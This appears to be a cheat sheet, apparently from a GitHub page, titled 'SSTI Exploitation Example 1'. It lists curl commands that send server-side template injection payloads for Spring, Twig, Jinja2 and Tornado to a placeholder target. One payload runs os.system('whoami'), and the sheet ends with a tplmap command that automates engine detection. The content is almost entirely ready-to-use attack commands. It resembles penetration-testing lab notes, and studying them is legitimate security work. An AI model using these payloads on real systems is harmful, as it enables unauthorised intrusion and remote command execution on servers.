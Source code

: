 SSTI Exploitation Example 1

| Command | Description |
| --- | --- |
| `curl -X POST -d 'email=${7*7}' http://<TARGET IP>:<PORT>/jointheteam` | Interacting with the remote target (Spring payload) |
| `curl -X POST -d 'email={{_self.env.display("TEST"}}' http://<TARGET IP>:<PORT>/jointheteam` | Interacting with the remote target (Twig payload) |
| `curl -X POST -d 'email={{config.items()}}' http://<TARGET IP>:<PORT>/jointheteam` | Interacting with the remote target (Jinja2 basic injection) |
| `curl -X POST -d 'email={{ [].class.base.subclasses() }}' http://<TARGET IP>:<PORT>/jointheteam` | Interacting with the remote target (Jinja2 dump all classes payload) |
| `curl -X POST -d "email={% import os %}{{os.system('whoami')}}" http://<TARGET IP>:<PORT>/jointheteam` | Interacting with the remote target (Tornado payload) |
| `curl -gs "http://<TARGET IP>:<PORT>/execute?cmd={{7*'7'}}"` | Interacting with the remote target (Confirming Jinja2 backend) |
| `./tplmap.py -u 'http://<TARGET IP>:<PORT>/execute?cmd'` | Automating the templating engine identification process with tplmap |

[`github profile`](https://github.com/Ferdibrgl)